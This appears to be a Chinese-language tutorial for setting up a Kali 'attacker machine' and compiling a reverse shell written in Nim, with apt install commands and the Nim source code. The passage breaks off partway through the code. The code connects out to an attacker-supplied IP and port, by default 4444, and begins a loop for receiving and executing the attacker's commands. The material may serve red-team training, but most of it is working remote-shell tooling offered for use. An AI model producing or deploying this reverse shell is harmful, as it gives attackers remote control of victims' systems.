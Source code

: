 # 准备 PoC 环境

在编译我们的二进制文件之前，我们必须更新我们的 Kali 攻击机器。

1.  在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

安装 mingw-64 和 nim。

```
sudo apt install mingw-w64 
sudo apt install nim
```

安装额外的支持工具

```
sudo apt install rlwrap
sudo apt install gedit
```

# 创建二进制文件

2.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

从[https://trust foundry . net/2021/03/01/writing-basic-offensive-tooling-in-nim/](https://trustfoundry.net/2021/03/01/writing-basic-offensive-tooling-in-nim/)下载 nim 源代码，将代码保存在/tmp/reverse_shell.nim

```
gedit /tmp/reverse_shell.nim
```

在/tmp/reverse_shell.nim 中复制并粘贴下面的代码

```
import net
import osproc # this comes with execProcess, which returns the output of the command as a string
import os
import strutils

# these are the default connection parameters for the rev shell, but can be overwritten with command-line args
var ip = "127.0.0.1"
var port = 4444

var args = commandLineParams() # returns a sequence (similar to a Python list) of the CLI arguments

# if arguments have been provided, assume they are an IP and port and overwrite the default IP/port values
if args.len() == 2:
    ip = args[0]
    port = parseInt(args[1])

# begin by creating a new socket
var socket = newSocket()
echo "Attempting to connect to ", ip, " on port ", port, "..."

while true:
# attempt to connect to the attacker's host
    try:
        socket.connect(ip, Port(port))

        # if the connection succeeds, begin the logic for receiving and executing commands from the attacker
        while true:
            try:

                socket.send("> ")
```